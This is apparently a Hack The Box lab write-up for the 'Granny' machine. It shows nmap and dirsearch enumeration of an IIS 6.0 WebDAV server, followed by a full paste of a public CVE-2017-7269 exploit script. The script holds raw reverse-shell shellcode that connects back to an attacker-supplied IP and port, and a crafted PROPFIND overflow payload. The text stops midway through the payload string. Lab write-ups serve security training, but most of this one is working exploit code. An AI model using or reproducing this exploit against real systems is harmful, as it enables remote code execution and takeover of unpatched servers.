


# Enumeration

```bash
┌──(root💀shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.15  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-07 21:05 +08
Nmap scan report for 10.10.10.15
Host is up (0.0041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Mon, 07 Feb 2022 13:06:12 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   4.33 ms 10.10.14.1
2   4.48 ms 10.10.10.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.83 seconds
```



It seems like the website is under construction…

Maybe we could try traversing its directories?

```bash
┌──(root💀shiro)-[/home/shiro]
└─# dirsearch -u 10.10.10.15:80                                   

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/80_22-02-07_21-11-13.txt

Error Log: /root/.dirsearch/logs/errors-22-02-07_21-11-13.log

Target: http://10.10.10.15:80/

[21:11:13] Starting: 
[21:11:16] 403 -   32B  - /%2e%2e//google.com
[21:11:21] 403 -    2KB - /Trace.axd
[21:11:22] 403 -   32B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:11:22] 200 -  246B  - /_private/
[21:11:22] 301 -  153B  - /_private  ->  http://10.10.10.15/%5Fprivate/
[21:11:22] 500 -   88B  - /_vti_pvt/service.pwd
[21:11:22] 301 -  155B  - /_vti_log  ->  http://10.10.10.15/%5Fvti%5Flog/
[21:11:22] 200 -  246B  - /_vti_log/
[21:11:22] 500 -   88B  - /_vti_pvt/authors.pwd
[21:11:22] 500 -   88B  - /_vti_pvt/service.pwt
[21:11:22] 500 -   88B  - /_vti_pvt/users.pwt
[21:11:22] 200 -    2KB - /_vti_inf.html
[21:11:22] 500 -   88B  - /_vti_pvt/
[21:11:22] 500 -   88B  - /_vti_cnf/
[21:11:22] 301 -  155B  - /_vti_bin  ->  http://10.10.10.15/%5Fvti%5Fbin/
[21:11:22] 500 -   88B  - /_vti_pvt/administrator.pwd
[21:11:22] 200 -  759B  - /_vti_bin/
[21:11:22] 500 -   88B  - /_vti_pvt/shtml.exe
[21:11:22] 200 -  195B  - /_vti_bin/_vti_aut/author.dll
[21:11:22] 200 -  195B  - /_vti_bin/_vti_adm/admin.dll
[21:11:22] 200 -  105B  - /_vti_bin/shtml.dll/asdfghjkl
[21:11:22] 200 -  106B  - /_vti_bin/shtml.exe/qwertyuiop
[21:11:22] 200 -   96B  - /_vti_bin/shtml.dll
[21:11:22] 200 -   96B  - /_vti_bin/shtml.exe?_vti_rpc
[21:11:28] 301 -  158B  - /aspnet_client  ->  http://10.10.10.15/aspnet%5Fclient/
[21:11:28] 200 -  369B  - /aspnet_client/
[21:11:34] 301 -  149B  - /images  ->  http://10.10.10.15/images/
[21:11:34] 200 -  242B  - /images/
[21:11:42] 200 -    2KB - /postinfo.html

Task Completed
```

It seems like there are nothing much also…

# Exploitation

From the `nmap` scan, we know that the website is running on `Microsoft IIS httpd 6.0`. So let’s do some Googling!



It seems like this version has a vulnerability of `CVE-2017-7269`, so let’s try to find possible exploit scripts on GitHub.

After searching around for awhile, I found this [GitHub](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) repository that contains an interesting reverse shell script. Let’s try to use this script! OwO

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# touch exploit.py
                                                                         
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# mousepad exploit.py        
                                                                         
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# cat exploit.py 
import sys
import struct
import socket  

if len(sys.argv)<5:
    print 'usage:iis6webdav.py targetip targetport reverseip reverseport\n'
    exit(1)
targetip = sys.argv[1]
targetport = int(sys.argv[2])
reverseip = sys.argv[3]
reverseport = int(sys.argv[4])

shellcode='\x55\x8B\xEC\x81\xEC\xDC\x05\x00\x00\x53\x56\x57\x8B\x45\x08\x8B'+\
'\x40\x78\x89\x85\xE4\xFA\xFF\xFF\x8B\x45\x08\x8B\x40\x70\x89\x45'+\
'\xFC\xC7\x85\xC8\xFC\xFF\xFF\x77\x73\x32\x5F\xC7\x85\xCC\xFC\xFF'+\
'\xFF\x33\x32\x2E\x64\xC7\x85\xD0\xFC\xFF\xFF\x6C\x6C\x00\x00\xC7'+\
'\x85\xD8\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\xDC\xFA\xFF\xFF\x74'+\
'\x61\x72\x74\xC7\x85\xE0\xFA\xFF\xFF\x75\x70\x00\x00\xC7\x85\x58'+\
'\xFA\xFF\xFF\x57\x53\x41\x53\xC7\x85\x5C\xFA\xFF\xFF\x6F\x63\x6B'+\
'\x65\xC7\x85\x60\xFA\xFF\xFF\x74\x41\x00\x00\xC7\x85\xE8\xFC\xFF'+\
'\xFF\x57\x53\x41\x43\xC7\x85\xEC\xFC\xFF\xFF\x6F\x6E\x6E\x65\xC7'+\
'\x85\xF0\xFC\xFF\xFF\x63\x74\x00\x00\xC7\x85\xA8\xFA\xFF\xFF\x69'+\
'\x6E\x65\x74\xC7\x85\xAC\xFA\xFF\xFF\x5F\x61\x64\x64\xC7\x85\xB0'+\
'\xFA\xFF\xFF\x72\x00\x00\x00\xC7\x85\x14\xFD\xFF\xFF\x68\x74\x6F'+\
'\x6E\xC7\x85\x18\xFD\xFF\xFF\x73\x00\x00\x00\xC7\x85\xF4\xFC\xFF'+\
'\xFF\x43\x3A\x5C\x57\xC7\x85\xF8\xFC\xFF\xFF\x69\x6E\x64\x6F\xC7'+\
'\x85\xFC\xFC\xFF\xFF\x77\x73\x5C\x73\xC7\x85\x00\xFD\xFF\xFF\x79'+\
'\x73\x74\x65\xC7\x85\x04\xFD\xFF\xFF\x6D\x33\x32\x5C\xC7\x85\x08'+\
'\xFD\xFF\xFF\x63\x6D\x64\x2E\xC7\x85\x0C\xFD\xFF\xFF\x65\x78\x65'+\
'\x00\xC7\x85\x18\xFB\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\x1C\xFB\xFF'+\
'\xFF\x69\x6E\x64\x6F\xC7\x85\x20\xFB\xFF\xFF\x77\x73\x5C\x73\xC7'+\
'\x85\x24\xFB\xFF\xFF\x79\x73\x74\x65\xC7\x85\x28\xFB\xFF\xFF\x6D'+\
'\x33\x32\x5C\xC7\x85\x2C\xFB\xFF\xFF\x63\x61\x6C\x63\xC7\x85\x30'+\
'\xFB\xFF\xFF\x2E\x65\x78\x65\x83\xA5\x34\xFB\xFF\xFF\x00\xC7\x85'+\
'\xE8\xFA\xFF\xFF\x43\x3A\x5C\x57\xC7\x85\xEC\xFA\xFF\xFF\x49\x4E'+\
'\x44\x4F\xC7\x85\xF0\xFA\xFF\xFF\x57\x53\x5C\x49\xC7\x85\xF4\xFA'+\
'\xFF\xFF\x49\x53\x20\x54\xC7\x85\xF8\xFA\xFF\xFF\x65\x6D\x70\x6F'+\
'\xC7\x85\xFC\xFA\xFF\xFF\x72\x61\x72\x79\xC7\x85\x00\xFB\xFF\xFF'+\
'\x20\x43\x6F\x6D\xC7\x85\x04\xFB\xFF\xFF\x70\x72\x65\x73\xC7\x85'+\
'\x08\xFB\xFF\xFF\x73\x65\x64\x20\xC7\x85\x0C\xFB\xFF\xFF\x46\x69'+\
'\x6C\x65\xC7\x85\x10\xFB\xFF\xFF\x73\x5C\x63\x2E\xC7\x85\x14\xFB'+\
'\xFF\xFF\x65\x78\x65\x00\xC7\x85\xD0\xFA\xFF\xFF'+struct.pack('i',reverseport)+\
'\xE9\x3E\x04\x00\x00\x5F\x89\xBD\xB4\xFA\xFF\xFF\xE8\x4C\x04\x00'+\
'\x00\x89\x85\x24\xFA\xFF\xFF\x68\x53\xC0\x49\x9C\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x5D\x04\x00\x00\x59\x59\x89\x85\x28\xFA\xFF\xFF\x68'+\
'\x5A\xC1\xCB\xC2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x45\x04\x00\x00\x59'+\
'\x59\x89\x85\x2C\xFA\xFF\xFF\x68\x1C\xC9\x05\xBA\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x2D\x04\x00\x00\x59\x59\x89\x85\x30\xFA\xFF\xFF\x68'+\
'\x54\x34\x4F\xA2\xFF\xB5\x24\xFA\xFF\xFF\xE8\x15\x04\x00\x00\x59'+\
'\x59\x89\x85\x34\xFA\xFF\xFF\x68\x12\x75\x1D\x45\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\xFD\x03\x00\x00\x59\x59\x89\x85\x38\xFA\xFF\xFF\x68'+\
'\xE9\x65\x73\x1B\xFF\xB5\x24\xFA\xFF\xFF\xE8\xE5\x03\x00\x00\x59'+\
'\x59\x89\x85\x3C\xFA\xFF\xFF\x68\x3A\xFD\xFB\x1E\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\xCD\x03\x00\x00\x59\x59\x89\x85\x40\xFA\xFF\xFF\x68'+\
'\xBD\x50\xD7\x2D\xFF\xB5\x24\xFA\xFF\xFF\xE8\xB5\x03\x00\x00\x59'+\
'\x59\x89\x85\x44\xFA\xFF\xFF\x68\xEF\x60\x08\xE7\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x9D\x03\x00\x00\x59\x59\x89\x85\x48\xFA\xFF\xFF\x68'+\
'\x83\x94\x7B\x10\xFF\xB5\x24\xFA\xFF\xFF\xE8\x85\x03\x00\x00\x59'+\
'\x59\x89\x85\x4C\xFA\xFF\xFF\x68\x49\x17\x55\xC0\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x6D\x03\x00\x00\x59\x59\x89\x85\x50\xFA\xFF\xFF\x68'+\
'\xD9\xE5\x1A\x06\xFF\xB5\x24\xFA\xFF\xFF\xE8\x55\x03\x00\x00\x59'+\
'\x59\x89\x85\x54\xFA\xFF\xFF\x8D\x85\xC8\xFC\xFF\xFF\x50\xFF\x95'+\
'\x28\xFA\xFF\xFF\x89\x85\x1C\xFD\xFF\xFF\x83\xBD\x1C\xFD\xFF\xFF'+\
'\x00\x0F\x84\x39\x01\x00\x00\x83\xA5\xD4\xFA\xFF\xFF\x00\xEB\x0D'+\
'\x8B\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF\xFF\x83\xBD\xD4'+\
'\xFA\xFF\xFF\x44\x73\x10\x8B\x85\xD4\xFA\xFF\xFF\x80\xA4\x05\x64'+\
'\xFA\xFF\xFF\x00\xEB\xDA\x83\xA5\xD4\xFA\xFF\xFF\x00\xEB\x0D\x8B'+\
'\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF\xFF\x83\xBD\xD4\xFA'+\
'\xFF\xFF\x10\x73\x10\x8B\x85\xD4\xFA\xFF\xFF\x80\xA4\x05\x20\xFD'+\
'\xFF\xFF\x00\xEB\xDA\x8D\x85\x20\xFD\xFF\xFF\x50\x8D\x85\x64\xFA'+\
'\xFF\xFF\x50\x6A\x00\x6A\x00\x6A\x04\x6A\x00\x6A\x00\x6A\x00\x6A'+\
'\x00\x8D\x85\x18\xFB\xFF\xFF\x50\xFF\x95\x34\xFA\xFF\xFF\xFF\xB5'+\
'\x24\xFD\xFF\xFF\xFF\x95\x3C\xFA\xFF\xFF\x68\xE8\x03\x00\x00\xFF'+\
'\x95\x54\xFA\xFF\xFF\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x40\xFA\xFF'+\
'\xFF\xC7\x85\x30\xFD\xFF\xFF\x01\x00\x01\x00\x8D\x85\x30\xFD\xFF'+\
'\xFF\x50\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x44\xFA\xFF\xFF\x6A\x40'+\
'\x68\x00\x10\x00\x00\xFF\x75\xFC\x6A\x00\xFF\xB5\x20\xFD\xFF\xFF'+\
'\xFF\x95\x48\xFA\xFF\xFF\x89\x85\x10\xFD\xFF\xFF\x6A\x00\xFF\x75'+\
'\xFC\xFF\xB5\xE4\xFA\xFF\xFF\xFF\xB5\x10\xFD\xFF\xFF\xFF\xB5\x20'+\
'\xFD\xFF\xFF\xFF\x95\x4C\xFA\xFF\xFF\x8B\x85\x10\xFD\xFF\xFF\x89'+\
'\x85\xE8\xFD\xFF\xFF\xC7\x85\x30\xFD\xFF\xFF\x01\x00\x01\x00\x8D'+\
'\x85\x30\xFD\xFF\xFF\x50\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x50\xFA'+\
'\xFF\xFF\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x3C\xFA\xFF\xFF\xEB\x1E'+\
'\x6A\x00\x8D\x85\xE8\xFA\xFF\xFF\x50\x8D\x85\xF4\xFC\xFF\xFF\x50'+\
'\xFF\x95\x30\xFA\xFF\xFF\x6A\x01\xFF\x95\x38\xFA\xFF\xFF\x68\x70'+\
'\x17\x00\x00\xFF\x95\x54\xFA\xFF\xFF\x8D\x85\xD8\xFA\xFF\xFF\x50'+\
'\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85\xBC\xFA'+\
'\xFF\xFF\x8D\x85\x58\xFA\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF'+\
'\x95\x2C\xFA\xFF\xFF\x89\x85\xC0\xFA\xFF\xFF\x8D\x85\xE8\xFC\xFF'+\
'\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85'+\
'\xC4\xFA\xFF\xFF\x8D\x85\xA8\xFA\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF'+\
'\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85\xC8\xFA\xFF\xFF\x8D\x85\x14'+\
'\xFD\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF'+\
'\x89\x85\xCC\xFA\xFF\xFF\x8D\x85\x38\xFB\xFF\xFF\x50\x68\x02\x02'+\
'\x00\x00\xFF\x95\xBC\xFA\xFF\xFF\x6A\x00\x6A\x00\x6A\x00\x6A\x06'+\
'\x6A\x01\x6A\x02\xFF\x95\xC0\xFA\xFF\xFF\x89\x85\xD4\xFC\xFF\xFF'+\
'\x66\xC7\x85\xD8\xFC\xFF\xFF\x02\x00\xFF\xB5\xD0\xFA\xFF\xFF\xFF'+\
'\x95\xCC\xFA\xFF\xFF\x66\x89\x85\xDA\xFC\xFF\xFF\xFF\xB5\xB4\xFA'+\
'\xFF\xFF\xFF\x95\xC8\xFA\xFF\xFF\x89\x85\xDC\xFC\xFF\xFF\x6A\x00'+\
'\x6A\x00\x6A\x00\x6A\x00\x6A\x10\x8D\x85\xD8\xFC\xFF\xFF\x50\xFF'+\
'\xB5\xD4\xFC\xFF\xFF\xFF\x95\xC4\xFA\xFF\xFF\x83\xA5\xD4\xFA\xFF'+\
'\xFF\x00\xEB\x0D\x8B\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF'+\
'\xFF\x83\xBD\xD4\xFA\xFF\xFF\x44\x73\x10\x8B\x85\xD4\xFA\xFF\xFF'+\
'\x80\xA4\x05\x64\xFA\xFF\xFF\x00\xEB\xDA\xC7\x85\x64\xFA\xFF\xFF'+\
'\x44\x00\x00\x00\xC7\x85\x90\xFA\xFF\xFF\x01\x01\x00\x00\x8B\x85'+\
'\xD4\xFC\xFF\xFF\x89\x85\xA4\xFA\xFF\xFF\x8B\x85\xA4\xFA\xFF\xFF'+\
'\x89\x85\xA0\xFA\xFF\xFF\x8B\x85\xA0\xFA\xFF\xFF\x89\x85\x9C\xFA'+\
'\xFF\xFF\x8D\x85\x20\xFD\xFF\xFF\x50\x8D\x85\x64\xFA\xFF\xFF\x50'+\
'\x6A\x00\x6A\x00\x6A\x00\x6A\x01\x6A\x00\x6A\x00\x8D\x85\xE8\xFA'+\
'\xFF\xFF\x50\x6A\x00\xFF\x95\x34\xFA\xFF\xFF\x6A\x01\xFF\x95\x38'+\
'\xFA\xFF\xFF\xE8\xBD\xFB\xFF\xFF'+struct.pack('16s',reverseip)+'\x5F\x5E\x5B\xC9\xC3\x64\xA1\x18'+\
'\x00\x00\x00\x8B\x40\x30\x33\xC9\x8B\x40\x0C\x8B\x40\x1C\x8B\x00'+\
'\x8B\x50\x20\x66\x83\x7A\x10\x2E\x74\x06\x41\x83\xF9\x02\x7C\xEE'+\
'\x8B\x40\x08\xC3\x55\x8B\xEC\x53\x56\x57\x8B\x7D\x08\x83\x65\x08'+\
'\x00\x8B\x47\x3C\x8B\x44\x38\x78\x03\xC7\x8B\x70\x20\x03\xF7\x83'+\
'\x78\x18\x00\x76\x2A\x8B\x0E\x03\xCF\x33\xDB\x8A\x11\x84\xD2\x74'+\
'\x0B\x6B\xDB\x21\x0F\xBE\xD2\x03\xDA\x41\xEB\xEF\x3B\x5D\x0C\x74'+\
'\x15\x83\xC6\x04\xFF\x45\x08\x8B\x4D\x08\x3B\x48\x18\x72\xD6\x33'+\
'\xC0\x5F\x5E\x5B\x5D\xC3\x8B\x48\x24\x8B\x55\x08\x8B\x40\x1C\x8D'+\
'\x0C\x51\x0F\xB7\x0C\x39\x8D\x04\x88\x8B\x04\x38\x03\xC7\xEB\xE1'
shellcodelen = 1744

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect((targetip,targetport))
pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: %d\r\n'%shellcodelen
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
